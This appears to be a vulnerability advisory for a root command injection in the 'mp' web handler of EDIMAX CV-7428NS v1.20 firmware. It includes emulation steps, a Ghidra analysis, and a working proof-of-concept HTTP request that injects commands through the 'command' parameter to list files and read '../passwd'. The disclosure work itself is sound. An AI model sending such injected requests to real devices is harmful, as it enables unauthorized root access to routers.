 ### description:
A remote code execution (RCE) vulnerability was discovered in thefirmware version EDIMAX-cv-7428ns_v1.20. The vulnerability exists in the `mp` function, which processes the `command` parameter via unsanitized input passed to `system()`. This allows attackers to execute arbitrary commands with root privileges by injecting shell metacharacters.

### Firmware
**brand**: EDIMAX
**product**: EDIMAX-cv-7428ns
**version**: v1.20

The firmware can be downloaded from [EDIMAX - Download](https://www.edimax.com/edimax/download/download/data/edimax/global/download/product/home_legacy_products/home_legacy_wi-fi_bridges/cv-7428ns/) and emulated using FirmAE:
```bash
sudo ./run.sh -d EDIMAX ../sim_project/CV-7428NS_v1.20/CV-7428NS_v1.20.bin
```
注意，这里仿真可能会失败，即可以看到FirmAE Debugger界面，但是发现路由服务并未启动，此时我们可以利用Debugger的socat进入路由终端，然后使用gdb去run固件的webs文件，启动后就可以看到80端口服务了

Emulation result:  
![./img/emulation2.png](./img/emulation2.png)
![[./img/emulation1.png]](./img/emulation1.png)

### analyze  
Using Ghidra, we identified the vulnerable function "mp" at file "webs":
![[./img/code_ana1.png]](./img/code_ana1.png)
![[./img/code_ana2.png]](./img/code_ana2.png)

Key findings:
1. The `command` parameter (pcVar3) is directly concatenated into `local_210` buffer.
2. `system()` executes the constructed command without sanitization.
3. Attempted semicolon filtering can be bypassed using alternative shell metacharacters.

Data flow analysis reveals:
- `websGetVar()` retrieves user-controlled `command` input 
- Command string is formatted into `/bin/rftest.sh [INPUT] > /tmp/rftest.out`
- No validation prevents command injection via `&`, `|`, `$()` etc.

Vulnerable code section:
![[./img/vulnerable_code.png]](./img/vulnerable_code.png)

### poc  
Successful exploitation using Burp Suite:
![[./img/poc_result.png]](./img/poc_result.png)

Verification steps:
1. Execute command injection:
```http
POST /goform/mp HTTP/1.1
Host: 192.168.9.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Cookie: language=0

command=hack%26%26echo%20HACK%26%26ls%20..%26%26cat%20../passwd
```
2. Observed response contains the content of file "../passwd" and commands are executed in Firmware.
